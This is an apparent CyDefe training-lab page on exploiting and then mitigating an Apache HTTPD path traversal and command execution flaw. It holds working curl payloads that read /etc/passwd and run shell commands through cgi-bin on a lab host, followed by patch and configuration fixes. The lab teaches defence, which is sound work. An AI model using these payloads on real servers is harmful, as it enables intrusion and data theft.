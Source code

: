 #### Exploitation Lab Instructions

1. After launching the lab on the CyDefe platform, you can choose to work in either the VNC or terminal environment. If utilizing the VNC environment, click the Xterm icon twice to open a terminal window. **Note: If you choose to utilize the terminal environment, you have the ability to copy and paste text between the terminal and your local environment.**
    
2. Use the **`curl`** command to attempt a path traversal attack:
    

**`curl -v --path-as-is http://www.target.co/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd`**

![Apache HTTPD Image 1.2.1 Path Traversal](https://images.ctfassets.net/kvf8rpi09wgk/7eHYT4xyz4Wwp6MAOs8rT1/29ad6f9ed93b7b8ff10630b84d776979/Apache_HTTPD_Image_1.2.1_Path_Traversal.png)

Image 1.2.1 - Checking for path traversal

3. After confirming that the target is vulnerable to the path traversal attack, you can now use this attack vector to read files on the target server.
    
4. Verify whether the target is vulnerable to arbitrary command execution by once again utilizing the **`curl`** tool. Run the command below and **ensure your syntax is**: **`echo;command`** (i.e. **`echo;ls /home`**). **Note**: In the image below, we utilized the command, **`whoami`**, but as an (ethical!) attacker, you can now enter any desired Linux command to interact with the target machine.
    

```
curl -v --data "echo;whoami" 'http://www.target.co/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![Apache HTTPD Image 1.2.2 Checking Files](https://images.ctfassets.net/kvf8rpi09wgk/2fhi2AAZ1PLJBBs7MruO58/e647f1ffe8cad91be0b297bd3c27b748/Apache_HTTPD_Image_1.2.2_Checking_Files.png)

Image 1.2.2 - Checking the files

5. By running this command, you can confirm that the target is vulnerable to arbitrary code execution. You can now use this attack vector to execute commands on the target host. It's evident that adversaries can quickly execute this attack to gain access to a system and essentially have free reign over the environment. **Keep the VM open to mitigate the vulnerability in the section below and to answer the challenge questions at the end of the page**.

#### Mitigation Overview

Your best options to mitigate this vulnerability are to patch the flaw through official sources and to make changes to the configuration file. See instructions for both options below. **You can modify the configuration file for option 2 in the lab VM, but you cannot try out the option 1 patching method in the lab**.

#### Option 1: Patching (No Lab)

1. Update the **`apt`** repository using the command, **`apt update`**. Or, if you are not **`root`**, then enter the command: **`sudo apt update`**.

![Apache HTTPD Image 1.2.3](https://images.ctfassets.net/kvf8rpi09wgk/1mRPAUAqyNIRHBHUtnSrkV/39db394254935da42491da9c77e23b00/Apache_HTTPD_Image_1.2.3.png)

Image 1.2.3 - Executing the apt update from the root folder

2. Install the latest version of Apache using the command, **`sudo apt install apache2`**. When prompted select **`y`** to install the package.

![Apache HTTPD Image 1.2.4](https://images.ctfassets.net/kvf8rpi09wgk/4M6gjY8bd0ipE40Dy5UmWh/af357a6fa5addab13273c284ab371b84/Apache_HTTPD_Image_1.2.4.png)

Image 1.2.4 - Installing the package update

#### Option 2: Configuration File Changes (Lab)

1. Keep the lab VM open from the exploitation section of this lesson to make configuration file changes in the lab. In the terminal, SSH into the target host by entering: **`ssh admin@www.target.co`**. When prompted to enter a password, enter the very secure password: **`password`**.

![Apache HTTPD Image 1.2.5 - SSH](https://images.ctfassets.net/kvf8rpi09wgk/2xqWYoPjeZh58Ifo0Aospf/e28bdb6fab20ff1ac1489058c551867a/Apache_HTTPD_Image_1.2.5_-_SSH.png)

Image 1.2.5 - SSH into the target host

2. Open the configuration file using the **`vi`** command:

```
vi /usr/local/apache2/conf/httpd.conf
```

![Apache HTTPD Image 1.2.6 - vi](https://images.ctfassets.net/kvf8rpi09wgk/2SvzSyHQP9wlRyfLZ45Bgi/392e85fc8f4ea9cc3ad4c3834409caa0/Apache_HTTPD_Image_1.2.6_-_vi.png)

Image 1.2.6 - Using the ‘vi’ command

3. Edit the lines containing the misconfigurations. Select **`i`** to allow editing of the file. Use the **`#`** symbol to branch out the lines containing **`LoadModule cgid_module modules/mod_cgid.so`** and the surrounding **`if module`** lines.

![Apache HTTPD Image 1.2.7](https://images.ctfassets.net/kvf8rpi09wgk/1uGI7kJDNWFS2nCKCwhpcs/32b2d4fd9ee0e678da8aba252dc688cc/Apache_HTTPD_Image_1.2.7.png)

Image 1.2.7 - How the lines should look

4. Review the following section:

```
<Directory /> 
AllowOverride none
Require all granted 
</Directory>
```

5. Change that section above to read:

```
<Directory /> 
AllowOverride none
Require all denied 
</Directory>
``
```

![Revised section](https://images.ctfassets.net/kvf8rpi09wgk/2yUHI6Uama6DRlSSke5Smp/930008c8f2e792614f1778afece130c6/Apache_HTTPD_Image_1.2.8.png)

Image 1.2.8 - Revised section

6. Enter **`:wq!`** to save the file.
    
7. Restart the Apache HTTPD service using the command below in order for the configuration file changes to take effect:
    

```
sudo /usr/local/apache2/bin/apachectl -k restart
```

![Apache HTTPD Image 1.2.9 - Restat](https://images.ctfassets.net/kvf8rpi09wgk/1Gd7pT9w9DALnFmj3IKL7N/aee1b9d38bff629da97c672fe45615d4/Apache_HTTPD_Image_1.2.9_-_Restat.png)

Image 1.2.9 - Restart

8. Reattempt the exploit using either the path traversal attack or arbitrary command injection attack.

![Apache HTTPD Image 1.2.2 Checking Files](https://images.ctfassets.net/kvf8rpi09wgk/2fhi2AAZ1PLJBBs7MruO58/e647f1ffe8cad91be0b297bd3c27b748/Apache_HTTPD_Image_1.2.2_Checking_Files.png)

Image 1.2.10 - Here we go again
